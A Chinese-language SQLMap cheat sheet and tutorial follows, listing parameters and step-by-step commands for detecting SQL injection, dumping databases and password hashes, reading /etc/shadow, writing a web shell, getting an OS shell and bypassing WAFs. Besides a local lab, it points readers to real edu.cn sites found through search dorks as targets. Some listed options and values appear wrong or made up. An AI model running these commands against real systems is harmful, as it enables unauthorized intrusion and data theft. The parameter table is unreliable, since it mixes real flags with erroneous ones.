


## 所有命令


<!-- more -->

-p 指定参数


## SQLMap 参数全集（终极完整版）

| 分类         | 参数                   | 说明                                            | 示例                                                      |
| ------------ | ---------------------- | ----------------------------------------------- | --------------------------------------------------------- |
| **目标设置** | **`-u/--url`**         | **指定目标URL**                                 | **`-u "http://vuln.com?id=1"**`**                         |
|              | **`-m`**               | **批量扫描文件（多个URL）**                     | **`-m urls.txt`**                                         |
|              | **`-r`**               | **从文件加载HTTP请求**                          | **`-r request.txt`**                                      |
|              | **`--data`**           | **POST请求数据**                                | **`--data="user=admin&pass=123"`**                        |
|              | **`--cookie`**         | **Cookie注入**                                  | **`--cookie="PHPSESSID=a8d12e"`**                         |
|              | **`--dbms`**           | **指定数据库类型**                              | **`--dbms=mysql`**                                        |
|              | **`-D`**               | **指定数据库名**                                | **`-D app_db`**                                           |
|              | **`-T`**               | **指定表名**                                    | **`-T users`**                                            |
|              | **`-C`**               | **指定字段名**                                  | **`-C username,password`**                                |
|              | **`-p`**               | **指定测试参数**                                | **`-p "id,user-agent"**`                                  |
|              | `--param-del`          | 参数分隔符                                      | `--param-del=";"`                                         |
|              | `--skip`               | 跳过指定参数                                    | `--skip="user-agent,referer"`                             |
|              | `--param-exclude`      | 正则排除参数                                    | `--param-exclude="token|session"`                         |
|              | `--prefix/--suffix`    | 注入前缀/后缀                                   | `--prefix="')" --suffix="--"`                             |
|              | `--force-ssl`          | 强制使用SSL                                     | `--force-ssl`                                             |
| **请求配置** | **`--method`**         | **指定HTTP方法**                                | **`--method=PUT`**                                        |
|              | **`--random-agent`**   | **随机User-Agent**                              | **`--random-agent`**                                      |
|              | **`c`**                | **自定义User-Agent**                            | **`--user-agent="Mozilla/5.0"`**                          |
|              | **`--csrf-url`**       | **指定获取CSRF令牌的URL**                       | `--csrf-url="http://example.com/vuln.php"`                |
|              | **`--csrf-token`**     | **令牌在HTML或参数中的名称**                    | `--csrf-token="csrf_token_name"`                          |
|              | **`--referer`**        | **自定义Referer头**                             | `--referer="https://google.com"`                          |
|              | `--proxy`              | 设置代理                                        | `--proxy="http://127.0.0.1:8080"`                         |
|              | `--proxy-file`         | 从文件加载代理列表                              | `--proxy-file=proxies.txt`                                |
|              | `--tor`                | 使用Tor网络                                     | `--tor --tor-type=SOCKS5`                                 |
|              | `--delay`              | 请求延迟（秒）                                  | `--delay=3`                                               |
|              | `--timeout`            | 超时时间（秒）                                  | `--timeout=15`                                            |
|              | `--retries`            | 失败重试次数                                    | `--retries=5`                                             |
|              | `--ignore-redirects`   | 忽略重定向                                      | `--ignore-redirects`                                      |
|              | `--headers`            | 自定义HTTP头                                    | `--headers="X-Forwarded-For: 192.168.1.1"`                |
|              | `--force-dns`          | 强制DNS解析                                     | `--force-dns`                                             |
|              | `--dns-domain`         | 指定DNS域名                                     | `--dns-domain=attacker.com`                               |
| **注入检测** | **`--level`**          | **测试等级（1-5）**                             | **`--level=5`**                                           |
|              | **`--risk`**           | **风险等级（0-3）**                             | **`--risk=3`**                                            |
|              | **`--technique`**      | **指定注入技术（B:布尔 U:联合 E:报错 T:时间）** | **`--technique=BEUST`**                                   |
|              | `--string`             | 识别真值的字符串                                | `--string="Welcome admin"`                                |
|              | `--not-string`         | 识别假值的字符串                                | `--not-string="Error"`                                    |
|              | `--regexp`             | 正则识别真值页面                                | `--regexp="Logged in as (\w+)"`                           |
|              | `--code`               | 指定HTTP响应码作为真值                          | `--code=200`                                              |
|              | **`--time-sec`**       | **时间盲注延迟（秒）**                          | **`--time-sec=10`**                                       |
|              | `--union-cols`         | UNION查询列数范围                               | `--union-cols=10-15`                                      |
|              | `--union-char`         | UNION填充字符                                   | `--union-char="NULL"`                                     |
|              | `--union-from`         | 指定UNION查询FROM部分                           | `--union-from=users`                                      |
| **数据枚举** | **`--banner`**         | **获取数据库版本**                              | **`--banner`**                                            |
|              | **`--current-db`**     | **获取当前数据库名**                            | **`--current-db`**                                        |
|              | **`--dbs`**            | **列出所有数据库**                              | **`--dbs`**                                               |
|              | **`--tables`**         | **列出所有表**                                  | **`--tables -D app_db`**                                  |
|              | **`--columns`**        | **列出字段结构**                                | **`--columns -T users`**                                  |
|              | **`--dump`**           | **导出表数据**                                  | **`--dump -T users`**                                     |
|              | `--dump-all`           | 导出所有数据库数据                              | `--dump-all`                                              |
|              | `--count`              | 统计记录数                                      | `--count -T users`                                        |
|              | `--start/--stop`       | 导出数据行范围                                  | `--start=10 --stop=100`                                   |
|              | `--search`             | 搜索库/表/字段                                  | `--search -C password`                                    |
|              | `--schema`             | 获取数据库结构                                  | `--schema`                                                |
|              | `--exclude-sysdbs`     | 排除系统数据库                                  | `--exclude-sysdbs`                                        |
| **系统信息** | `--current-user`       | 获取当前用户                                    | `--current-user`                                          |
|              | `--is-dba`             | 检测DBA权限                                     | `--is-dba`                                                |
|              | `--users`              | 列出所有用户                                    | `--users`                                                 |
|              | `--privileges`         | 获取用户权限                                    | `--privileges -U admin`                                   |
|              | `--roles`              | 获取角色信息                                    | `--roles`                                                 |
|              | `--passwords`          | 获取密码哈希值                                  | `--passwords`                                             |
|              | `--hostname`           | 获取主机名                                      | `--hostname`                                              |
|              | `--statements`         | 获取SQL语句历史                                 | `--statements`                                            |
|              | `--udf-inject`         | UDF注入                                         | `--udf-inject`                                            |
|              | `--shared-lib`         | 指定共享库路径                                  | `--shared-lib=lib_mysqludf.so`                            |
| **文件操作** | **`--file-read`**      | **读取服务器文件**                              | `--file-read="/etc/passwd"`                               |
|              | **`--file-write`**     | **写入本地文件到服务器**                        | `--file-write=shell.php --file-dest="/var/www/shell.php"` |
|              | **`--file-dest`**      | **指定服务器写入路径**                          | `--file-dest="/tmp/payload"`                              |
|              | `--os-file`            | 指定操作系统文件路径                            | `--os-file="/etc/shadow"`                                 |
|              | `--os-dir`             | 指定操作系统目录                                | `--os-dir="/tmp"`                                         |
| **系统交互** | **`--os-cmd`**         | **执行操作系统命令**                            | `--os-cmd="id"`                                           |
|              | **`--os-shell`**       | **获取交互式系统Shell**                         | `--os-shell`                                              |
|              | `--os-pwn`             | 提权攻击（获取Meterpreter等）                   | `--os-pwn`                                                |
|              | `--os-smbrelay`        | SMB中继攻击                                     | `--os-smbrelay`                                           |
|              | `--os-bof`             | 缓冲区溢出攻击                                  | `--os-bof`                                                |
|              | `--priv-esc`           | 权限提升尝试                                    | `--priv-esc`                                              |
|              | `--reg-read`           | 读取Windows注册表                               | `--reg-read="HKLM\SOFTWARE\Microsoft"`                    |
|              | `--reg-add`            | 添加Windows注册表项                             | `--reg-add="HKLM\SOFTWARE\Test"`                          |
|              | `--reg-del`            | 删除Windows注册表项                             | `--reg-del="HKLM\SOFTWARE\Test"`                          |
|              | `--os-cmd-limit`       | 限制OS命令执行次数                              | `--os-cmd-limit=3`                                        |
|              | `--os-pwn-limit`       | 限制提权尝试次数                                | `--os-pwn-limit=2`                                        |
|              | **`--sql-shell`**      | **获取交互式数据库Shell**                       | `--sql-shell`                                             |
| **优化调节** | **`--threads`**        | **线程数（1-10）**                              | `--threads=8`                                             |
|              | `--keep-alive`         | 持久HTTP连接                                    | `--keep-alive`                                            |
|              | `--null-connection`    | 获取无内容响应                                  | `--null-connection`                                       |
|              | `--predict-output`     | 预测输出值                                      | `--predict-output`                                        |
|              | `--smart`              | 智能模式（仅当启发式检测到注入时才测试）        | `--smart`                                                 |
|              | `--offline`            | 离线模式（不发送实际请求）                      | `--offline`                                               |
|              | `--fresh-queries`      | 跳过缓存查询                                    | `--fresh-queries`                                         |
|              | `--hex`                | 使用十六进制转换                                | `--hex`                                                   |
|              | `--hpp`                | 使用HTTP参数污染                                | `--hpp`                                                   |
|              | `--tmp-path`           | 指定临时文件目录                                | `--tmp-path="/tmp/sqlmap"`                                |
|              | `--chunked`            | 使用分块传输编码                                | `--chunked`                                               |
|              | `--force-pivoting`     | 强制使用代理隧道                                | `--force-pivoting`                                        |
| **绕过技术** | **`--tamper`**         | **WAF绕过脚本**                                 | `--tamper="space2comment,charencode"`                     |
|              | `--skip-waf`           | 跳过WAF检测                                     | `--skip-waf`                                              |
|              | `--dbms-cred`          | 数据库凭据                                      | `--dbms-cred="admin:Pass123!"`                            |
|              | `--invalid-bignum`     | 使用大数字使参数失效                            | `--invalid-bignum`                                        |
|              | `--no-cast`            | 禁用类型转换                                    | `--no-cast`                                               |
|              | `--no-escape`          | 禁用字符串转义                                  | `--no-escape`                                             |
|              | `--second-order`       | 二阶注入URL                                     | `--second-order="result.php"`                             |
|              | `--eval`               | 请求前执行Python代码                            | `--eval="import time;time.sleep(2)"`                      |
| **输出控制** | `-v`                   | 输出详细级别（0-6）                             | `-v 3`                                                    |
|              | **`--batch`**          | **非交互模式（自动选择默认选项）**              | `--batch`                                                 |
|              | `--output-dir`         | 指定输出目录                                    | `--output-dir="/reports"`                                 |
|              | `--flush-session`      | 清空会话缓存                                    | `--flush-session`                                         |
|              | `--save`               | 保存配置到INI文件                               | `--save`                                                  |
|              | `--scope`              | 使用正则过滤URL                                 | `--scope=".*\.example\.com"`                              |
|              | `--alert`              | 执行警报命令                                    | `--alert="notify-send '注入发现!'"`                       |
|              | `--answers`            | 预设回答                                        | `--answers="extend=n,follow=n"`                           |
|              | `--beep`               | 操作完成时发出提示音                            | `--beep`                                                  |
|              | `--results-file`       | 指定结果输出文件                                | `--results-file=scan.txt`                                 |
|              | `--har`                | 生成HAR文件（记录HTTP流量）                     | `--har=traffic.har`                                       |
|              | `--eta`                | 显示预计完成时间                                | `--eta`                                                   |
|              | `--log-format`         | 日志格式（CSV,JSON,XML）                        | `--log-format=JSON`                                       |
|              | `--dump-format`        | 导出数据格式（CSV,HTML,SQLITE）                 | `--dump-format=SQLITE`                                    |
| **其他功能** | `--check-dependencies` | 检查依赖环境                                    | `--check-dependencies`                                    |
|              | `--update`             | 自动更新SQLMap                                  | `--update`                                                |
|              | `--wizard`             | 新手向导模式                                    | `--wizard`                                                |
|              | `--purge`              | 清除所有缓存文件                                | `--purge`                                                 |
|              | `--dependencies`       | 安装Python依赖库                                | `--dependencies`                                          |
|              | `--disable-coloring`   | 禁用终端颜色输出                                | `--disable-coloring`                                      |
|              | `--gpage`              | Google dork分页数                               | `--gpage=10`                                              |
|              | `--identify-waf`       | WAF识别                                         | `--identify-waf`                                          |
|              | `--mobile`             | 模拟移动设备User-Agent                          | `--mobile`                                                |
|              | `--page-rank`          | Google PR值过滤（仅扫描高PR网站）               | `--page-rank>6`                                           |
|              | `--skip-static`        | 跳过静态内容检测                                | `--skip-static`                                           |
|              | `--sqlmap-shell`       | 进入交互式SQLMap shell                          | `--sqlmap-shell`                                          |
|              | `--sql-query`          | 执行自定义SQL查询                               | `--sql-query="SELECT @@version"`                          |
|              | `--check-internet`     | 检查互联网连接                                  | `--check-internet`                                        |
|              | `--list-tampers`       | 列出所有可用tamper脚本                          | `--list-tampers`                                          |
|              | `--smoke-test`         | 快速测试（仅基本检测）                          | `--smoke-test`                                            |
|              | `--test-filter`        | 选择特定测试载荷                                | `--test-filter="ROW"`                                     |


### 高级参数速查

| 参数组合                        | 功能描述            |
| ------------------------------- | ------------------- |
| `--technique=B --threads=10`    | 专注布尔盲注+多线程 |
| `--file-read+--file-write`      | 文件读写组合攻击    |
| `--reg-read+--os-cmd`           | 注册表读取+命令执行 |
| `--eta --har --output-dir`      | 完整扫描记录        |
| `--skip-static --fresh-queries` | 高效扫描模式        |
| `--second-order --tamper`       | 高级存储型注入      |
| `--check-internet --update`     | 环境检查+自动更新   |

SQLmap是一款「自动化」[SQL注入](https://so.csdn.net/so/search?q=SQL注入&spm=1001.2101.3001.7020)工具，kali自带。路径 /usr/share/sqlmap

打开终端，输入`sqlmap`，出现以下界面，就说明SQLmap「可用」。


本篇文章使用本地搭建的SQL-labs靶场作为「演示」目标，其他目标可使用必应搜索以下类型的网站：

```bash
inurl:news.asp?id=site:edu.cn
inurl:news.php?id= site:edu.cn
inurl:news.aspx?id=site:edu.cn
```


## 快速入门

**SQLmap（常规）使用步骤**

1、检测「注入点」

```bash
sqlmap -u 'http://xx/?id=1'
```

2、查看所有「数据库」

```bash
sqlmap -u 'http://xx/?id=1' --dbs
```

3、查看当前使用的数据库

```bash
sqlmap -u 'http://xx/?id=1' --current-db
```

4、查看「数据表」

```bash
sqlmap -u 'http://xx/?id=1' -D 'security' --tables
```

5、查看「字段」

```bash
sqlmap -u 'http://xx/?id=1' -D 'security' -T 'users' --tables
```

6、查看「数据」

```bash
sqlmap -u 'http://xx/?id=1' -D 'security' -T 'users' --dump
```


## 检测目标

检测「注入点」前，需要指定需要检测的「对象」。

### 指定url

`-u` 参数，指定需要检测的url，单/双引号包裹。中间如果有提示，就输入y。

提示：SQLmap不能直接「扫描」网站漏洞，先用其他扫描工具扫出注入点，再用SQLmap验证并「利用」注入点。

```shell
sqlmap -u 'http://xx/?id=1'
```

扫描完成后，告诉我们存在的注入类型和使用的数据库及版本。


### 指定文件（批量检测）

准备一个「文件」，写上需要检测的多个url，一行一个。

`-m` 指定文件，可以「批量扫描」文件中的url，需要确认就按y。

```bash
sqlmap -m urls.txt
```

### 指定数据库/表/字段

`-D` 指定目标「数据库」，单/双引号包裹，常配合其他参数使用。

`-T` 指定目标「表」，单/双引号包裹，常配合其他参数使用。

`-C` 指定目标「字段」，单/双引号包裹，常配合其他参数使用。

```bash
sqlmap -u 'http://xx/?id=1' -D 'security' -T 'users' -C 'username' --dump
```

### post请求

检测「post请求」的注入点，使用BP等工具「抓包」，将http请求内容保存到txt文件中。

`-r` 指定需要检测的文件，SQLmap会通过post请求方式检测目标。

```bash
sqlmap -r bp.txt
```

### cookie注入

`--cookie` 指定cookie的值，单/双引号包裹。

```bash
sqlmap -u "http://xx?id=x" --cookie 'cookie'
```

### WAF绕过

`--tamper` 指定绕过脚本，绕过WAF或ids等。

```bash
sqlmap -u 'http://xx/?id=1' --tamper 'space2comment.py'
```

SQLmap内置了很多绕过脚本，在 /usr/share/sqlmap/tamper/ 目录下：



脚本按照用途命名，比如 space2comment.py 是指，用/**/代替空格。

当然，你也可以根据内置脚本格式，自己定义绕过脚本。

### 其他

`--batch` （默认确认）不再询问是否确认。

`--level 1` 执行测试的等级（1-5，默认为1，常用3）

`--method=GET` 指定请求方式（GET/POST）

`--random-agent` 随机切换UA（User-Agent）

`--user-agent ' '` 使用自定义的UA（User-Agent）

`--referer ' '` 使用自定义的 referer

`--proxy="127.0.0.1:8080"` 指定代理

`--threads 10` 设置线程数，最高10

`--risk=1` 风险级别（0~3，默认1，常用1），级别提高会增加数据被篡改的风险。

`--level 1` 执行测试的等级（1-5，默认为1，常用3）

## 脱库

获取所有内容

```shell
sqlmap -u 'http://xx/?id=1' -a
```

`-a` 就是 all 的意思，获取所有能获取的内容，会消耗很长时间。

### 获取数据库

`--dbs` 获取数据库

**1、获取数据库版本**

```shell
sqlmap -u 'http://xx/?id=1' -b
```

**2、获取当前使用的数据库**

```shell
sqlmap -u 'http://xx/?id=1' --current-db
```

**3、获取所有数据库**

```bash
sqlmap -u 'http://xx/?id=1' --dbs
```

### 获取表

`--tables` 获取表

**1、获取表，可以指定数据库**

```bash
sqlmap -u 'http://xx/?id=1' -D 'security' --tables
```

**2、同时获取多个库的表名，库名用逗号分隔。**

```bash
sqlmap -u 'http://xx/?id=1' -D 'security,sys' --tables
```

**3、不指定数据库，默认获取每个数据库中所有的表。**

```bash
sqlmap -u 'http://xx/?id=1' --tables
```

### 获取字段

`--columns` 参数用来获取字段。

**1、获取字段，可以指定库和表**

提示：只指定库名但不指定表名会报错。

```bash
sqlmap -u 'http://xx/?id=1' -D 'security' -T 'users' --columns
```

**2、不指定表名，默认获取当前数据库中所有表的字段。**

```bash
sqlmap -u 'http://xx/?id=1' --columns
```

### 获取字段类型

`--schema` 获取字段类型，可以指定库或指定表。不指定则获取数据库中每个表所有字段的类型。

```bash
sqlmap -u 'http://xx/?id=1' -D 'security' --schema
```

### 获取值（数据）

`--dump` 获取值，也就是表中的数据。可以指定具体的库、表、字段。

```bash
sqlmap -u 'http://xx/?id=1' -D 'security' -T 'users' -C 'username,password' --dump
```

 获取指定库中所有表的数据。

```bash
sqlmap -u 'http://xx/?id=1' -D 'security' --dump
```

默认获取表中的所有数据，可以使用 `--start` `--stop` 指定开始和结束的行，只获取一部分数据。

```bash
sqlmap -u 'http://xx/?id=1' -D 'security' -T 'users' --start 1 --stop 5  --dump
```

### 获取用户

**1、获取当前登录数据库的用户**

```shell
sqlmap -u 'http://192.168.31.180/sqli-labs-master/Less-1/?id=1' --current-user
```

**2、获取所有用户**

`--users` 获取数据库的所有用户名。

```bash
sqlmap -u 'http://xx/?id=1' --users
```

**3、获取用户密码**

`--passwords` 获取所有数据库用户的密码（哈希值）。

```bash
sqlmap -u 'http://xx/?id=1' --passwords
```

数据库不存储明文密码，只会将密码加密后，存储密码的哈希值，所以这里只能查出来哈希值；当然，你也可以借助工具把它们解析成明文。最后面显示数据库用户名对应的密码的哈希值。

**6.4、获取用户权限**

`--privileges` 查看每个数据库用户都有哪些权限。

```bash
sqlmap -u 'http://xx/?id=1' --privileges
```

**6.5、判断当前用户是不是管理员**

`--is-dba` 判断当前登录的用户是不是数据库的管理员账号。

```bash
sqlmap -u 'http://xx/?id=1' --is-dba
```

如果是管理员，就在最后面显示 true。

### 获取主机名

`--hostname` 获取服务器主机名。

```bash
sqlmap -u 'http://xx/?id=1' --hostname
```

### 搜索库、表、字段。

`--search` 搜索数据库中是否存在指定库/表/字段，需要指定库名/表名/字段名。

搜索数据库中有没有 security 这个数据库：

```bash
sqlmap -u 'http://xx/?id=1' -D 'security' --search
```

需要手动选择模糊匹配（1）还是完全匹配（2），而后返回匹配的结果。



也可以搜索表

```bash
sqlmap -u 'http://xxx/?id=1' -T 'users' --search
```

或者搜索字段

```bash
sqlmap -u 'http://xx/?id=1' -C 'username' --search
```

### 正在执行的SQL语句

`--statements` 获取数据库中正在执行的SQL语句。

```bash
sqlmap -u 'http://xx/?id=1' --statements 
```


本文参考：

[SQLmap使用教程图文教程（超详细）](https://blog.csdn.net/wangyuxiang946/article/details/131236510)
